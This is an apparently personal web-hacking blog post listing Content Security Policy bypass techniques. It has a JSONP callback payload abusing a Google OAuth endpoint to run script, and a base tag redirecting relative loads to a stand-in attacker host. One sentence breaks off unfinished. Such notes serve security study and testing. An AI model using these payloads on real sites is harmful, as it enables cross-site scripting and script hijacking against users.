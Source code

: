 ```yaml
---
title: Content Security Policy (CSP) Bypass
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```


## Google JSONP CSP Bypass

If the target server is accepting addresses from Google, use the

~~~
Content-Security-Policy: default-src 'self'; script-src *.google.com
~~~

~~~ html
<html>
    <head>...</head>
    <body>
        <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    </body>
</html>
~~~


## missing base-uri

~~~ html
<base href="https://attacker.io/">
~~~
